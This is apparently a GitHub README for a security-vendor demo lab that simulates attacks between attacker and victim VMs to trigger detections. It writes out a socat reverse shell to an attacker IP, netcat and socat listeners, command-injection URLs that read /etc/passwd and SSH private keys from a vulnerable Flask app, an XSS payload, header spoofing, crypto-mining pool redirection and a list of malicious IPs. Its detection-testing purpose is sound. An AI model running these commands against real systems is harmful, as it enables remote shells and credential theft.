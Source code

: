 # 🧪 Attack Simulation Lab

This demo simulates various types of attacks within your **own VPC environment**. It includes Remote Command Execution, Reflected XSS, IP Spoofing, and simulates known bad IP behavior. **For educational and demonstration purposes only.**

![image](https://github.com/user-attachments/assets/16d33c34-aa16-4880-8544-c2d1c8d113e6)


---

## 🛠️ Preparations

git clone https://github.com/svuillaume/demo_simulator

### 1. Launch Two VMs
- **Attacker VM**
- **Victim VM**

---

## 🧰 Attacker VM Setup

1. **Install Docker**
2. **Deploy Lacework Agent**

---

## 🎯 Victim VM Setup

1. **Install dependencies**
   ```bash
   sudo apt update
   sudo apt install python3 python3-pip -y
   pip3 install flask
   ```

2. **Set up the attack simulation script**
   ```bash
   chmod +x demo_simulator/lw_attack_sim.sh
   ```

3. **Update crypto pools in the script**  
   Use custom pool URLs:
   - `evil.v2.xmrig.com`
   - `donate.v2.xmrig.com`

4. **Edit `/etc/hosts` to redirect mining pools to attacker**
   ```plaintext
   127.0.0.1 localhost
   <Attacker-IP> donate.v2.xmrig.com
   ```

5. **Run the Flask application**
   ```bash
   python3 app.py
   ```

---

## ▶️ Running the Simulation

### On the Attacker VM (Open 2 Terminals or use screen)

sudo apt install screen    # Debian/Ubuntu
sudo yum install screen    # RHEL/CentOS


**Create a persistent socket listener on Terminal 1 or screen 1:**
```bash
nc -k -l 3333 &
```
**Create a new socat tcp listener on tcp 5555**

```bash
socat file:`tty`,raw,echo=0 tcp-listen:5555
```

**Run traffic simulation with k6 on Terminal 2 or screen 2:**
```bash
sudo docker run --rm -v $(pwd):/scripts grafana/k6 run /scripts/k6.js
```

---

### On the Victim VM

**Run the attack simulation script:**
```bash
./demo_simulator/lw_attack_sim.sh
```

**Intiate an interactive Reverse Shell**
```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:172.31.30.103:5555
```
---

## 🚀 HOWTO Use the Demo


On the Attacker VM, run K6.js and owasp_attack.sh

> ⚠️ **IMPORTANT:** All tests must be run within your **own VPC lab environment**.

### 🔓 Remote Command Execution (RCE)

Submit OS commands via the vulnerable Flask app:

***(aws ALB) http://samv-alb-1759994858.ca-central-1.elb.amazonaws.com:5000/***

```bash
http://samv-alb-1759994858.ca-central-1.elb.amazonaws.com:5000/cmd?exec=cat%20/etc/passwd
```
```bash
http://samv-alb-1759994858.ca-central-1.elb.amazonaws.com:5000/cmd?exec=cat%20~/.ssh/id_rsa
```
---

### 💬 Reflected XSS

Test for reflected XSS using the greet endpoint:

- [Greet](http://<victim_IP>:5000/greet)

**Example:**
```
http://<victim_IP>:5000/greet?name=<script>alert('GotYou :)')</script>
```

---

### 🌐 Client IP Logging

Test client IP extraction:

- [Client IP](http://<victim_IP>:5000/client-ip)

**Spoof IP via curl:**
```bash
curl -H "X-Forwarded-For: 1.2.3.4" http://<victim_IP>:5000/client-ip
```

---

## 🚨 Known Bad IPs for Simulation (Use with Caution)

| IP Address       | Description                                   |
|------------------|-----------------------------------------------|
| `45.227.253.55`  | Malware C2 - AbuseIPDB                        |
| `185.220.101.1`  | Tor exit node (flagged)                       |
| `1.3.3.7`        | Red team/meme IP                              |
| `222.186.30.50`  | Brute-force attacker (common honeypot source) |
| `89.248.167.131` | Blacklisted scanner (abuse reports)           |
| `23.129.64.50`   | Tor exit node - flagged in feeds              |

> ⚠️ **Do NOT scan or connect to these IPs from outside your VPC. Use only for simulation/logging tests.**

---

## ✅ You're now ready to simulate attacks!
Happy testing — use responsibly in isolated environments.

